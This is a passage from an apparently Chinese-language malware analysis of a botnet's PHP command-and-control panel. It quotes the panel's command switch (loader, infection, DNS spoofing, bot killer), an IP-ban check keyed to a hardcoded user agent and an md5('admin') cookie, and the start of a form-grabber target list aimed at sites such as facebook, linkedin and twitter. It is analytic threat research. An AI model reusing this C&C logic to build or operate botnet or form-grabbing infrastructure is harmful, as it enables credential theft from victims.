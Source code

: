 ```
            return "update";
            break;
        case "loader":
            return "loader";
            break;
        case "visit url":
            return "visit";
            break;
        case "bot killer":
            return "botkiller";
            break;
        case "infection":
            return "infect";
            break;
        case "dns spoofing":
            return "dns";
            break;
    }
    return "failed";
}

```

C&C对非法请求非常敏感，并且会根据源IP黑名单作出相应的反应：

functions.php

```
function CheckBotUserAgent($ip)
{
  $bot_user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:35.0) Gecko/20100101 Firefox/35.0";
  if ($_SERVER['HTTP_USER_AGENT'] != $bot_user_agent) {
    AddBan($ip);
  }
  if (!isset($_COOKIE['authkeys'])) {
    AddBan($ip);
  }
  $cookie_check = $_COOKIE['authkeys'];
  if ($cookie_check != "21232f297a57a5a743894a0e4a801fc3") { /* md5(admin) */
    AddBan($ip);
  }
}

```

通过观察`install.php`，我们还可以发现Form表单所截取的目标。这里的列表中包括了最流行的电子邮件和社交网络网站（**facebook、linkedin、twitter**等）。

install.php

```
$ff_sett = "INSERT INTO `formgrabber_host` (`hostnames`, `block`) VALUES".
```